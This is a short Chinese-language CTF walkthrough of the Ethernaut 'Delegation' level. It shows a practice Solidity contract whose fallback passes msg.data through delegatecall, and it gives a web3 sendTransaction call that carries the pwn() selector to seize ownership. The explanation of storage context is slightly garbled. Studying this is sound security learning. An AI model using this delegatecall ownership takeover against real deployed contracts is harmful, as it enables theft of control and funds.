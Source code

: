# Delegation
关于delegatecall
```solidity
pragma solidity ^0.4.18;

contract Delegate {

  address public owner;

  function Delegate(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  function Delegation(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  function() public {
    if(delegate.delegatecall(msg.data)) {
      this;
    }
  }
}
```

### 代码分析
```solidity
function() public {
    if(delegate.delegatecall(msg.data)) {
      this;
    }
  }
```
fallback函数使用了delegatecall，该调用不会修改state为Delegation的storage而不是Delegate的storage。可参照
[]()查看以太坊call的相关区别

### 攻击方法
1. 向合约地址发送一条交易，并且msg.data为bytes4(keccak256("pwn()"))，该字符串可以通过web3.sha3("pwn()")
获得，"0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab"，其中methodID为前8位，即
"0xdd365b8b";所以调用web3.sendTransaction({to:"your instance address", data:"0xdd365b8b"}, function(err, hash){})
